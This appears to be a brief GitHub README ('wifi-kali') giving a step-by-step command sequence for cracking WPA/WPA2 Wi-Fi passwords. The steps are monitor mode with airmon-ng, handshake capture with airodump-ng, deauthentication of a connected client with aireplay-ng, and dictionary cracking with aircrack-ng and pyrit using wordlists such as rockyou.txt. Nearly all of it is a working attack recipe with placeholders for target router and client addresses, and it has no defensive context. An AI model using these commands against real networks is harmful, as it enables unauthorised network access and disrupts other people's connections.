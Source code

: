# wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

#### CRACKBEGIN
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {target_router_bssid} -w /home/mon0 wlan0mon
* aireplay-ng -0 2 -a {target_router_bssid} -c {connected_station_bssid} wlan0mon

#### CRACKEND
* aircrack-ng -a2 -b {target_router_bssid} -w /root/wpa.txt /root/Desktop/*.cap
* airmon-ng stop wlan0mon
* pyrit -r BSSID.cap analyze
* pyrit -i ./rockyou.txt import_passwords
* pyrit -e BSSID create_essid
* #pyrit eval
* pyrit batch
